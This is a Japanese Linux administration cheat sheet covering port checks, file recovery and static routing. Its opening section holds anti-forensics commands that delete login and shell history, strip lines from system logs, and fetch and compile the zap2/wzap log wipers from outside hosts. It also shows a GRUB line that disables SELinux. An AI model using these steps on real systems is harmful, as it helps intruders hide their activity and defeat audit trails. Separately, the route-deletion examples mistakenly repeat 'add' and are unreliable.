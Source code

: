 ## 履歴削除

```
sudo rm /var/log/wtmp
sudo touch /var/log/wtmp
sudo rm /root/.bash_history
sudo rm /root/.viminfo
rm ~/.bash_history
rm ~/.viminfo
unset HISTFILE
```

### ログ

 ファイル名 | ログの用途                     | 主な格納先 | 格納タイプ
------------|--------------------------------|------------|------------
 utmp       | 現在のユーザー情報を記録       | /var/run   | バイナリ
 wtmp       | ログインの履歴を記録           | /var/log   | バイナリ
 lastlog    | ユーザーの最終ログイン時を記録 | /var/log   | バイナリ
 cron       | cronの実行結果を保存           | /var/log   | テキスト
 maillog    | メール関連                     | /var/log   | テキスト
 messages   | システムメッセージ、各種ソフト | /var/log   | テキスト
 secure     | セキュリティ関連               | /var/log   | テキスト
 xferlog    | ftp関連                        | /var/log   | テキスト

#### 改ざん

```
# テキスト系ファイルの改ざん
sed -e '/hogehoge/d' /var/log/messages > /tmp/messages

# zap2 で wtmp を改ざん
cd /tmp/
curl -LO http://www.kozupon.pgw.jp/download/wzap.c
gcc -o wzap wzap.c
./wzap
who ./wtmp.out
mv -f wtmp.out wtmp
chown root.utmp wtmp

# zap
curl -LO www.ussrback.com/UNIX/penetration/log-wipers/zap2.c
gcc -o zap zap2.c
./zap
```


## GRUB からselinux をOFFに

```
selinux=0 single
```
## システムリソースの上限を確認 (ulimit -a)

```
ulimit -a
# max memory size    = 物理メモリの使用サイズ上限
# open files         = ファイルディスクリプタ数の上限
# cpu time           = CPU時間の上限
# max user processes = プロセス数の上限
```

## ポートを使用しているプロセスを調査 (lsof)

```
sudo lsof -i:3306
```

## 疎通確認

```
## TCP 80
nc -z -w 5 -v www.example.com 80
## TCP 80-81
nc -z -w 5 -v www.example.com 80-81
## UDP 68
nc -u -z -w 5 -v www.example.com 68
```

## ファイルの復旧(ext3,4限定)

```
# 実行するとRECOVERED_FILES ディレクトリに復元ファイルができる
extundelete --after [unitxtime] --restore-all /dev/sda1
sudo extundelete /dev/sdc2 --after `date --date='2012-01-01 00:00' '+%s'`
```

## ネットワーク
### 静的ルーティング設定

```
# ルーティングテーブル表示
netstat -nr
```

#### routeコマンド

```
# network の追加
sudo route add -net 172.31.0.0 gw 10.13.0.145 netmask 255.255.0.0 eth0
# host の追加(eth0 の指定がなければ任意でルーティングが設定できるethで設定される)
sudo route add -host 172.31.0.10 gw 10.13.0.145 eth0

# network の削除
sudo route add -net 172.31.0.0 gw 10.13.0.145 netmask 255.255.0.0 eth0
# host の削除
sudo route add -host 172.31.0.10 gw 10.13.0.145 eth0
```

#### ipコマンド

```
# network の追加
sudo ip route add 172.31.0.0/16 via 10.13.0.145 dev eth0
# host の追加(/32で指定する)
sudo ip route add 172.31.0.10/32 via 10.13.0.145 dev eth0

# network の削除
sudo ip route del 172.31.0.0/16
# host の削除
sudo ip route del 172.31.0.10/32
```

#### 永続的な追加(Ubuntu)

##### /etc/network/if-up.d/static-routesで設定する方法
```
cat <<EOM > /etc/network/if-up.d/static-routes
#!/bin/sh
/sbin/route add -net 172.31.0.0 gw 10.13.0.145 netmask 255.255.0.0 dev eth0 // networkの場合
/sbin/route add -host 172.31.0.10 gw 10.13.0.145 eth0 // hostの場合
EOM
sudo chmod +x /etc/network/if-up.d/static-routes
```

##### /etc/network/interfacesに設定する方法

cat /etc/network/interfaces

```
# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces(5).

# The loopback network interface
auto lo
iface lo inet loopback

# The primary network interface
auto eth0
iface eth0 inet dhcp
    post-up route add -net 172.31.0.0/16 gw 10.13.0.145  // networkの場合
    post-up route add -host 172.31.0.10/32 gw 10.13.0.145  // hostの場合
```

#### 永続的な追加(CentOS)

```
cat /etc/sysconfig/network-scripts/route-eth0 
# Static route for metadata service
172.31.0.0/16 via 10.13.0.145 dev eth0 // networkの場合
172.31.0.10/32 via 10.13.0.145 dev eth0 // hostの場合

sudo service network restart
```

#### Gatewayの場合

```
cat /etc/sysconfig/network-scripts/route-eth1
default via 10.131.2.1 dev eth1

cat /etc/sysconfig/network-scripts/ifcfg-eth1
DEVICE=eth1
BOOTPROTO=static
ONBOOT=yes
NETWORKING=yes
GATEWAY=10.131.2.1
IPADDR=10.131.2.200
PREFIX=18
```
